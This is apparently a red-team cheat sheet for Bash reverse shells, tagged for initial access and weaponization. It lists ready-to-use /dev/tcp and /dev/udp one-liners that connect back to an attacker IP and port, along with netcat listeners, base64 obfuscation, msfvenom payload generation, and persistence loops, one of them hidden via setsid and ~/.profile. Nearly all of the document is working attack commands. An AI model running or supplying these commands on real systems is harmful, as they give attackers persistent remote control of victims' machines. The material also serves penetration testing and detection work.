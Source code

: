 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - T1059-004
  - linux
---
```

# Bash

## 01 - TCP Method

Target

```
$ /bin/bash -i >& /dev/tcp/<attacker_IP>/<attacker_PORT> 0>&1

$ nohup setsid /bin/bash -c '/bin/bash -i >& /dev/tcp/<attacker_IP>/<attacker_PORT> 0>&1'

$ nohup 0<&103-;exec 103<>/dev/tcp/<attacker_IP>/<attacker_PORT>; sh <&103 >&103 2>&103 &2>/dev/null; sleep 1; exit
```

Attacker

```
userware@hackware-os:~$ nc -lnvp <PORT>
```

## 02 - UDP Method

Target

```
$ /bin/bash -i >& /dev/udp/<attacker_IP>/<attacker_PORT> 0>&1

$ nohup setsid /bin/bash -c '/bin/bash -i >& /dev/udp/<attacker_IP>/<attacker_PORT> 0>&1'

$ nohup 0<&103-;exec 103<>/dev/udp/<attacker_IP>/<attacker_PORT>; sh <&103 >&103 2>&103 &2>/dev/null; sleep 1; exit
```

Attacker

```
userware@hackware-os:~$ nc -luvp <PORT>
```

You can encode it with base64 then execute it.

```
$ echo <base64_payload> | base64 -d

$ echo <base64_payload> | basenc --base64 -d
```

## 03 - Generate via `msfvenom`

### 3.1 - TCP Method

```
$ msfvenom -p cmd/unix/reverse_bash lhost=<IP> lport=<PORT>
```

### 3.2 - UDP Method

```
$ msfvenom -p cmd/unix/reverse_bash_udp lhost=<IP> lport=<PORT>
```

## 04 - Persistent Callback Shell

In case you might lose the callback connection. It's better to make it persistent.

```
$ while true; do /bin/bash -c /path/to/implant; sleep 10; done

$ while true; do /bin/bash -i >& /dev/<protocol>/<attacker_IP>/<attacker_PORT> 0>&1; sleep 10; done

$ setsid bash -c 'while :; do bash -i &>/dev/<protocol>/<attacker_IP>/<attacker_PORT> 0>&1; sleep 360; done' &>/dev/null
```

Prevents multiple instances while written in `~/.profile`.

```
$ fuser /dev/shm/.busy &>/dev/null || nohup /bin/bash -c 'while :; do touch /dev/shm/.busy; exec 3</dev/shm/.busy; bash -i &>/dev/<protocol>/<attacker_IP>/<attacker_PORT> 0>&1 ; sleep 360; done' &>/dev/null &
```

---
## References

### Source Repositories

- [hackerschoice: THC's favourite Tips, Tricks & Hacks (Cheat Sheet)](https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet)

### Hacktricks

- [Hacktricks: Shells Linux](https://book.hacktricks.wiki/en/linux-hardening/bypass-bash-restrictions/index.html)